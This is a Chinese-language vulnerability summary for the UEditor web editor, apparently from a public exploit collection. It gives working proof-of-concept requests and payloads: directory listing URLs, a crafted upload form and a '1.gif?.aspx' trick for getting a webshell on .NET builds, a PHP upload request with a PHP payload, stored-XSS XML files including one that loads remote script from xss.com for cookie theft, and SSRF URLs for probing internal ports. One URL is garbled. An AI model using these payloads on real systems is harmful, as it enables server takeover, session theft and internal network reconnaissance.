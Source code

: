 # Ueditor编辑器漏洞总结

## 漏洞描述

UEditor 是由百度「FEX前端研发团队」开发的所见即所得富文本web编辑器，具有轻量，可定制，注重用户体验等特点，开源基于MIT协议，允许自由使用和修改代码。

界面如下：

![ueditor-1](images/ueditor-1.webp)

## 漏洞复现

### 0x01 文件读取漏洞

file 目录文件读取：

```
http://www.xxxx.comhttps://14.23.155.17 /net/controller.ashx?action=listfile
```

image 目录文件读取：

```
http://www.xxxx.com/ueditor/net/controller.ashx?action=listimage
```

### 0x02 .net版本 任意文件上传

只适用于 .net 版本，存在于`1.4.3.3`、`1.5.0`和`1.3.6`版本中。

准备一台服务区存放图片马或者需要上传的文件，本地构造一个 `html` 页面用于上传使用

```html
<form action="http://www.xxxx.com/ueditor/net/controller.ashx?action=catchimage" enctype="application/x-www-form-urlencoded" method="POST">

    <p>shell addr: <input type="text" name="source[]" /></p>

    <input type="submit" value="Submit" />

</form>
```

![ueditor-2](images/ueditor-2.webp)

- `shell addr` 处填写服务器上图片码地址，构造成以下格式，绕过上传使其解析为 `aspx`

```
http://xxxx/1.gif?.aspx
```

- 成功上传返回上传路径，可直连 getshell

![ueditor-3](images/ueditor-3.webp)



### 0x03 php版本文件上传

poc：

```
POST http://localhost/ueditor/php/action_upload.php?action=uploadimage&CONFIG[imagePathFormat]=ueditor/php/upload/fuck&CONFIG[imageMaxSize]=9999999&CONFIG[imageAllowFiles][]=.php&CONFIG[imageFieldName]=fuck HTTP/1.1
Host: localhost
Connection: keep-alive
Content-Length: 222
Cache-Control: max-age=0
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/60.0.3112.78 Safari/537.36
Content-Type: multipart/form-data; boundary=——WebKitFormBoundaryDMmqvK6b3ncX4xxA
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6,zh-TW;q=0.4
———WebKitFormBoundaryDMmqvK6b3ncX4xxA
Content-Disposition: form-data; name="fuck"; filename="fuck.php"
Content-Type: application/octet-stream
<?php 
phpinfo();
?>
———WebKitFormBoundaryDMmqvK6b3ncX4xxA—

shell路径由CONFIG[imagePathFormat]=ueditor/php/upload/fuck决定
http://localhost/ueditor/php/upload/fuck.php
```

### 0x03 存储型xss

```
<html>

<head></head>

<body>
    <something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>

</html>

盲打 Cookie、src=""：
<something:script src="" xmlns:something="http://www.w3.org/1999/xhtml"></something:script>
```

上传点：

```
/ueditor/index.html
/ueditor/asp/controller.asp?action=uploadimage
/ueditor/asp/controller.asp?action=uploadfile

/ueditor/net/controller.ashx?action=uploadimage
/ueditor/net/controller.ashx?action=uploadfile

/ueditor/php/controller.php?action=uploadfile
/ueditor/php/controller.php?action=uploadimage

/ueditor/jsp/controller.jsp?action=uploadfile
/ueditor/jsp/controller.jsp?action=uploadimage
```

将`uploadimage`类型改为`uploadfile`，修改文件后缀名为`.xml`：

![ueditor-4](images/ueditor-4.webp)

上传成功，访问成功弹框：

![ueditor-5](images/ueditor-5.webp)

#### 一些常见的xml弹窗poc

弹窗xss：

```
<html><head></head><body><something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1);</something:script></body></html>
```

url跳转：

```
<html><head></head><body><something:script xmlns:something="http://www.w3.org/1999/xhtml">window.location.href="https://www.t00ls.net/";</something:script></body></html>
```

远程加载js：

```
<html><head></head><body><something:script src="http://xss.com/xss.js" xmlns:something="http://www.w3.org/1999/xhtml"></something:script></body></html>
```

### 0x04 ssrf

该漏洞存在于`1.4.3`的`jsp版本`中，`1.4.3.1`版本已经修复。

该版本ueditor的ssrf触发点：

```php
/jsp/controller.jsp?action=catchimage&source[]=
/jsp/getRemoteImage.jsp?upfile=
/php/controller.php?action=catchimage&source[]=
```

使用百度logo构造poc：

```
http://xxx/cmd/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/PCtm_d9c8750bed0b3c7d089fa7d55720d6cf.png
```

内网端口探测：

```
/ueditor/jsp/getRemoteImage.jsp?upfile=http://127.0.0.1/favicon.ico?.jpg
/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
/ueditor/php/controller.php?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
```

判断该地址对应的主机端口是否开放：

- 如果抓取不存在的图片地址时，页面返回如下，即state为"远程连接出错"。

```
{"state": "SUCCESS", list:[{"state":"\u8fdc\u7a0b\u8fde\u63a5\u51fa\u9519"} ]}
```

- 如果成功抓取到图片，页面返回如下，即state为"SUCCESS"。

```
{"state": "SUCCESS", list: [{"state":"SUCCESS","size":"5103","source":"http://192.168.135.133:8080/tomcat.png","title":"1527173588127099881.png","url":"/ueditor/jsp/upload/image/20180524/1527173588127099881.png"}]}
```

- 如果主机无法访问，页面返回如下，即state为"抓取远程图片失败"。

```
{"state":"SUCCESS", list: [{"state":"\u6293\u53d6\u8fdc\u7a0b\u56fe\u7247\u5931\u8d25"}]}
```

还有一个版本的ssrf漏洞 ，存在于onethink 1.0中的ueditor，测试版本为1.2。poc：

```
POST http://xxx/Public/static/ueditor/php/getRemoteImage.php HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:55.0) Gecko/20100101Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Connection: keep-alive

upfile=https://www.google.com/?%23.jpg
```

